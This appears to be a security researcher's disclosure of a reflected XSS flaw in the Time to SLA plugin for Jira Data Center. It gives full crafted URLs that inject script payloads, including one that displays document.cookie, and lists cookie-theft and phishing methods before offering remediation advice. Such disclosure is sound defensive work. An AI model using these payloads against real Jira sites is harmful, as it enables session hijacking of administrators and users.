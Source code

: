 Vulnerability submitted by Shuning Xu

Supplier:https://www.atlassian.com/software/jira

Software download link: https://www.atlassian.com/software/jira/update

Affected software :jira software

Vulnerability plugin name: Time to SLA

Vulnerability plugin Version: Version 10.13.5•Jira Data Center 8.0.0 - 9.10.1

Description :For jira software download, select HOSTING TYPES as the data center and download the latest version 9.10.1 locally. Install the latest version 10.13.5 of the Time to SLA plugin, which is applicable to Jira Data Center 8.0.0 - 9.10.1. The Time to SLA plugin has XSS Vulnerabilities, that is, cross-site scripting attacks, attackers will insert malicious JavaScript codes into web pages, and the payload is <ScRiPt>alert(1)</ScRiPt>, which will trigger when administrators/users access, so as to achieve the purpose of the attack. The essential reason is that the server does not strictly filter the data submitted by the user, causing the browser to treat the user's input as JS code and directly return it to the client for execution. What's happening here is reflected XSS. The attacker can steal the cookies of users such as administrators, steal clipboard content, change web page content (such as download links) and so on by using reflected cross-site scripting attacks.

Test process:
1. After installing the plugin Time to SLA, the paid plugin needs to obtain a license and activate the plugin.
Download address: the page

/plugins/servlet/upm/marketplace/featured? source=side_nav_find_new_addons 

Enter the plugin name Time to SLA download.

![image-xss1.1[Time to SLA]](images/xss1.1[Time to SLA].png)

Or download in the app store at 
https://marketplace.atlassian.com/apps/1211843/time-to-sla?tab=overview&hosting=datacenter

![image-xss1.2[Time to SLA]](images/xss1.2[Time to SLA].png)

2. Navigate to the URL:
http://localhost:port/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

![image-xss1.3[Time to SLA]](images/xss1.3[Time to SLA].png)

3. Launch Burp Suite to capture network traffic. Use Burpsuite to capture and change packets for detection:
![image-xss1.4[Time to SLA]](images/xss1.4[Time to SLA].png)

4. Change the durationFormat parameter to <ScRiPt>alert(1)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(1)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or change the durationFormat parameter to <ScRiPt>alert(document.cookie)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(document.cookie)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or Change the progress parameter to <ScRiPt>alert(2)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=<ScRiPt>alert(2)</ScRiPt>&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

5. A pop-up window will appear on the web page, and an alarm box showing 1 will pop up, triggering XSS, indicating that there is cross-site vulnerability, recording the vulnerability, and stopping the test.

![image-xss1.5[Time to SLA]](images/xss1.5[Time to SLA].png)

![image-xss1.6[Time to SLA]](images/xss1.6[Time to SLA].png)

A pop-up warning box showing cookies

![image-xss1.7[Time to SLA]](images/xss1.7[Time to SLA].png)

A pop-up warni

Attack steps:

1.Attackers create and test malicious URLs;

2.The attacker is sure that the victim loaded a malicious URL in the browser;

3.The attacker uses reflected cross-site scripting attacks to install keyloggers, steal victims' cookies, steal clipboard content, and change web page content (such as download links).

Attack method:

1. Use xss testing platform BlueLotus to steal cookies

2.Malicious links

3. Web phishing

4.Redirection implanted advertisement

Risk level: reflected cross-site presence in the application

Repair solution: 

For XSS cross-site vulnerabilities, the following repair methods can be used:

Overall fix: Validate all input data to effectively detect attacks; properly encode all output data to prevent any successfully injected scripts from running on the browser side. details as follows :

Input Validation: Validate the length, type, syntax, and business rules of all input data using standard input validation mechanisms before a certain data is accepted for display or storage.

Output encoding: Before data output, ensure that the data submitted by the user has been correctly encoded by entity. It is recommended to encode all characters instead of being limited to a certain subset.

Explicitly specify the encoding of the output: don't allow an attacker to choose an encoding (such as ISO 8859-1 or UTF 8) for your users.

Pay attention to the limitations of the blacklist verification method: just find or replace some characters (such as "<" ">" or keywords like "script"), it is easy to bypass the verification mechanism by XSS variant attacks.

Beware of normalization errors: Before validating input, it must be decoded and normalized to conform to the application's current internal representation. Make sure the application does not decode the same input twice. To filter the data submitted by the client, it is generally recommended to filter out special characters such as double quotes ("), angle brackets (<, >), or perform entity conversion on the special characters contained in the data submitted by the client, such as double quotes (") into its entity form &quot;, <corresponding entity form is &lt;, <corresponding entity form is&gt; The following are common characters to be filtered:
